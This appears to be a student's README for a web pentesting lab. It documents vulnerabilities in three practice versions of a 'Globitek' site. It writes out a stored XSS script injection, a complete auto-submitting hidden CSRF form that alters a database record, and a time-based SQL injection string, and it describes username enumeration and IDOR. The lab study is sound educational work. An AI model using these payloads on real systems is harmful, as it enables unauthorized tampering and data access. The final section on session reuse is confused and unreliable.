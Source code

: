 # Pentesting
Time spent: 8 hours spent in total

Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

Username Enumeration
Insecure Direct Object Reference (IDOR)
SQL Injection (SQLi)
Cross-Site Scripting (XSS)
Cross-Site Request Forgery (CSRF)
Session Hijacking/Fixation
Each version of the site has been given two of the six vulnerabilities. 
(In other words, all six of the exploits should be assignable to one of the sites.)


# Green

Vulnerability #1: Cross-Site Scripting
![](xss_green.gif)
Attacker can inject an XSS in their feedback form.
Injected XSS Command:
<script>alert('Raj found the XSS!');</script>
This XSS runs once the account holder checks their feedback page

Vulnerability #2: Username Enumeration
![](username.gif)
As you can see from above, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
The "failure" class is applied an bold style in css while "failed" class doesn't.

# Red
Vulnerability #1: Cross-Site Request Forgery (CSRF)
![](CSRF.gif)
Created a malicious page that utilizes the user's session to forge a request to the database:

<html>
<head>
<title>NOT A FAKE FORM</title>
</head>
<body onload="document.my_form.submit()">
<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=3" method="POST" name="my_form" style="display: none;" target="hidden_results" >
<input type="text" name="first_name" value="You Fool!" />
<input type="text" name="last_name" value="Sorry_Mr.Barker" />
<input type="text" name="phone" value="777-777-7778" />
<input type="text" name="email" value="TROLLED@TORLLED.COM" />
</form>
<iframe name="hidden_results" style="display: none;"></iframe>
</body>
</html>

This page secretly makes a post request on page load and hides the outcome in a hidden iframe.
 As result, an account in the database is altered.
 
 Vulnerability #2: Insecure Direct Object Reference
 ![](IDOR.gif)
 
 Above GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view.
 This is done through modifying the "id" parameter in the URL's to change the GET request.
 
 # Blue
 Vulnerability #1: SQL Injection (SQLi) 
 ![](SQLi.gif)
 The Attacker is Injects a sql command instead of the proper Salesperson's ID Number.
 Injected SQL Command: %27%20OR%20SLEEP(5)=0--%27
 This causes the Database command to wait for 5 seconds while quering the data.
 
 Vulnerability #2: Implemented User
 ![](Implemented_user.gif)
 If we login from red target, eventually we will also be able to login from blue target.

